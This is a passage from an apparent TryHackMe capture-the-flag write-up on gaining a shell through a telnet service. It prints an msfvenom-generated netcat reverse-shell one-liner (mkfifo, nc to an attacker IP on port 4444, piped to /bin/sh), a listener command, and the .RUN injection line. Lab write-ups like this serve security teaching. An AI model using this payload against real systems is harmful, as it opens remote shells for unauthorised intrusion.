 6. Now, use the command "ping [local tun0 ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

```
kali@kali:~/CTFs/tryhackme/Network Services$ ping 10.8.106.222 -c 1
PING 10.8.106.222 (10.8.106.222) 56(84) bytes of data.
64 bytes from 10.8.106.222: icmp_seq=1 ttl=64 time=0.027 ms

--- 10.8.106.222 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.027/0.027/0.027/0.000 ms
```

7. Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!
8. We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax: "`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`"

- `-p` = payload
- `lhost` = our local host IP address
- `lport` = the port to listen on
- `R` = export the payload in raw format

What word does the generated payload start with?

```
kali@kali:~/CTFs/tryhackme/Network Services$ msfvenom -p cmd/unix/reverse_netcat lhost=10.8.106.222 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 102 bytes
mkfifo /tmp/itxhqvx; nc 10.8.106.222 4444 0</tmp/itxhqvx | /bin/sh >/tmp/itxhqvx 2>&1; rm /tmp/itxhqvx
```

`mkfifo`

9. Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using: "`nc -lvp [listening port]`" What would the command look like for the listening port we selected in our payload?

```
kali@kali:~/CTFs/tryhackme/Network Services$ nc -lvp 4444
Listening on 0.0.0.0 4444
```

`nc -lvp 4444`

10. Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

```
.RUN mkfifo /tmp/itxhqvx; nc 10.8.106.222 4444 0</tmp/itxhqvx | /bin/sh >/tmp/itxhqvx 2>&1; rm /tmp/itxhqvx
```
